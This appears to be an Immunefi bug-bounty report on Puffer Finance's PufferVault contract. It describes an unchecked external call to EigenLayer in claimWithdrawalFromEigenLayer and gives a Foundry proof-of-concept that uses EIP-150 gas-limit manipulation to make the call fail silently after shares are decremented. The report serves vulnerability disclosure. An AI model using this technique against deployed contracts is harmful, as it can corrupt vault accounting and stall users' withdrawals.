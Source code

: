 
# External Call from Eigen Layer can fail silently in the claimWithdrawalFromEigenLayer function

Submitted on Sun Feb 25 2024 06:05:50 GMT-0400 (Atlantic Standard Time) by @Cryptor for [Boost | Puffer Finance](https://immunefi.com/bounty/pufferfinance-boost/)

Report ID: #28732

Report type: Smart Contract

Report severity: Insight

Target: https://etherscan.io/address/0xd9a442856c234a39a81a089c06451ebaa4306a72

Impacts:
- Contract fails to deliver promised returns, but doesn't lose value

## Description
## Brief/Intro

The function claimWithdrawalFromEigenLayer is unprotected and makes an external call to eigen layer at the end of the function without checking the return value. This can result in a possible exploit where a user can call claimWithdrawalFromEigenLayer and pass in just enough gas to reduce the amount of pending shares while the eigenlayer call fails  

## Vulnerability Details

Observe the following code 

https://github.com/PufferFinance/pufETH/blob/14b15a3c94b65d895ea08b5faa1cfed0dfc18bd0/src/PufferVault.sol#L222-L243

The function claimWithdrawalFromEigenLayer allows a user to claim stETH withdrawals from EigenLayer. If fetches some values from Eigen Layer and then makes some checks. Pay attention to the following lines 

``` 
  $.eigenLayerPendingWithdrawalSharesAmount -= queuedWithdrawal.shares[0];

        _EIGEN_STRATEGY_MANAGER.completeQueuedWithdrawal({
            queuedWithdrawal: queuedWithdrawal,
            tokens: tokens,
            middlewareTimesIndex: middlewareTimesIndex,
            receiveAsTokens: true
        });
```

It reduces the pending shares and then makes an external call to Eigen to complete the queued withdrawal of shares. However due to the 1/64th rule in etheruem and the lack of a return value check on the external call, there is a way to make the function pass while making the external call to eigen silently fail causing an erroneous accounting of eigenLayerPendingWithdrawalSharesAmount, which can be reduced without any withdrawal actually taking place.



## Impact Details

A bad actor exploiting this vulnerability could disrupt the withdrawal process. By causing the external call to Eigen to fail while reducing the pending shares, the actor could manipulate the queuing system. This could ultimately lead to withdrawals being delayed or, in worse scenarios, not processed at all.


## References

https://medium.com/iovlabs-innovation-stories/the-dark-side-of-ethereum-1-64th-call-gas-reduction-ba661778568c

https://github.com/ethereum/EIPs/blob/master/EIPS/eip-150.md

https://solodit.xyz/issues/h-08-gas-limit-check-is-inaccurate-leading-to-an-operator-being-able-to-fail-a-job-intentionally-code4rena-holograph-holograph-contest-git


        
## Proof of concept
## Proof of Concept


(Note: The following helper external view function was added to the puffervault contract to fetch share value from the VaultStorage struct to make writing the test easier. Nothing else has changed in the code.)

``` 
function getvaultwithdrawshares () public view returns (uint) {

          VaultStorage storage $ = _getPufferVaultStorage();

        return $.eigenLayerPendingWithdrawalSharesAmount;
    }
```

Foundry Test (modified test_withdraw_from_eigenlayer):

```
function test_withdraw_from_eigenLayer()
        public
        giveToken(BLAST_DEPOSIT, address(stETH), address(pufferVault), 1000 ether) // Blast got a lot of stETH
    {

         
        // Simulate stETH cap increase call on EL
        _increaseELstETHCap();

        vm.startPrank(OPERATIONS_MULTISIG);
        pufferVault.depositToEigenLayer(stETH.balanceOf(address(pufferVault)));

        uint256 ownedShares = _EIGEN_STRATEGY_MANAGER.stakerStrategyShares(address(pufferVault), _EIGEN_STETH_STRATEGY);

        uint256 assetsBefore = pufferVault.totalAssets();

        // Initiate the withdrawal
        pufferVault.initiateStETHWithdrawalFromEigenLayer(ownedShares);

        // 1 wei diff because of rounding
        assertApproxEqAbs(assetsBefore, pufferVault.totalAssets(), 1, "should remain the same when locked");

        IERC20[] memory tokens = new IERC20[](1);
        tokens[0] = IERC20(address(stETH));

        IStrategy[] memory strategies = new IStrategy[](1);
        strategies[0] = IStrategy(_EIGEN_STETH_STRATEGY);

        uint256[] memory shares = new uint256[](1);
        shares[0] = ownedShares;

        IEigenLayer.WithdrawerAndNonce memory withdrawerAndNonce =
            IEigenLayer.WithdrawerAndNonce({ withdrawer: address(pufferVault), nonce: 0 });

        IEigenLayer.QueuedWithdrawal memory queuedWithdrawal = IEigenLayer.QueuedWithdrawal({
            strategies: strategies,
            shares: shares,
            depositor: address(pufferVault),
            withdrawerAndNonce: withdrawerAndNonce,
            withdrawalStartBlock: uint32(block.number),
            delegatedAddress: address(0)
        });

        // Roll block number + 100k blocks into the future
        vm.roll(block.number + 100000);


        
        
        /*added an external helper function getvaultwithdrawshares to the puffer vault contract to fetch 
        the pendingwithdrawsharesamount */
        uint puffervaultsharesbefore = pufferVault.getvaultwithdrawshares();


        /*Exploits EIP 150 to pass in just enough gas to reduce shares amount while allowing 
        the external call to eigen layer to fail silently 
        */
        uint gasLimit = (gasleft()* 63/64) - 1;

        /* Claim Withdrawal. Final call to Eigen Layer would revert while the erroneous accouting of   shares still remain */
        pufferVault.claimWithdrawalFromEigenLayer{gas: gasLimit}(queuedWithdrawal, tokens, 0);

        //
        uint puffervaultsharesafter = pufferVault.getvaultwithdrawshares();

        assert(puffervaultsharesafter < puffervaultsharesbefore);

       
    }
```